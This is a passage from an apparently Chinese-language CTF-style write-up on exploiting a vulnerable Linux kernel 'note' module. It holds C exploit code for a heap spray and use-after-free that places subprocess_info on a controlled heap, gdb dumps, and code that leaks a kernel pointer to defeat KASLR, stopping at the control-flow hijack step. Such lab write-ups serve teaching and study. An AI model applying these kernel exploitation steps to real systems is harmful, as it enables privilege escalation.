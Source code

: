 ```c
	MSGSPRAY(qid, msgbuf, 0x1);		// space at A (free'd note)


	memset(buffer, 0, 8);		 
	note_alloc(0x80);
	note_write(buffer, 0x80);	//  make B's fd is NULL, altherwise next allocate crash

	// get subprocess_info
	socket(22, AF_INET, 0);		
	note_read(buffer, 0x80);
	note_free();
```

成功在可控的堆上分配得到`subprocess_info`

```c
gdb-peda$ x/10gx 0xffff91760ca15200
0xffff91760ca15200:	0x0000000000000000	0xffff91760ca15208
0xffff91760ca15210:	0xffff91760ca15208	0xffffffffb0660160
0xffff91760ca15220:	0x0000000000000000	0xffffffffb122c540
0xffff91760ca15230:	0xffff91760ca350c0	0xffffffffb122c460
0xffff91760ca15240:	0x0000000000000000	0x0000010000000006
gdb-peda$ x/s 0xffffffffb122c540   
0xffffffffb122c540:	"/sbin/modprobe"
```

##### 泄漏地址

`subprocess_info`结构体中存在内核函数指针，其中在`call_usermodehelper_setup`中初始化的`info.work.func`为函数`__call_usermodehelper`，在subprocess_info结构偏移0x18处。

```c
	INIT_WORK(&sub_info->work, __call_usermodehelper);
```

在`kallsyms`中是`call_usermodehelper_exec_work`，偏移`0x60160`

```
/ # cat /proc/kallsyms | grep call_usermodehelper_exec_work
ffffffffb0660160 t call_usermodehelper_exec_work
....
ffffffffb0600000 T startup_64
```

泄漏代码：

```
	note_read(buffer, 0x80);

	call_usermodehelper_exec_work = ((unsigned long*)buffer)[0x3];
	kernel_base = call_usermodehelper_exec_work - 0x60160;
	printf("[*] call_usermodehelper_exec_work: 0x%lx\n", call_usermodehelper_exec_work);
	printf("[*] kernel_base: 0x%lx\n", kernel_base);
```

##### 劫持控制流
